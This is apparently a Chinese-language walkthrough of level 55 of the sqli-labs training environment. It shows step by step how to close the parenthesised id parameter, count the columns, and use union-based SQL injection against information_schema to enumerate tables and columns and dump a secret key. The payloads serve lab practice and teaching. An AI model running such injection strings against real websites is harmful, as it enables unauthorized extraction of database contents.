

## sql-labs第五十五关

五十五关是有14次机会，id参数是加了括号的整数，还是正常流程，先闭合再拖库

~~~ cmd
?id=1
~~~

~~~ cmd
?id=1)
~~~

两者不一致，说明这里存在`sql`注入点

~~~ cmd
?id=1) union select 1,2,3--+
~~~

~~~ cmd
?id=-1) union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database()--+
~~~

~~~ cmd
?id=-1) union select 1,group_concat(column_name),3 from information_schema.columns where table_schema = database() and table_name="2F1CH3L20D"--+
~~~

~~~ cmd
?id=-1) union select 1,group_concat(secret_A8VM),3 from 2F1CH3L20D--+
~~~

由此成功爆破出`secret_key`
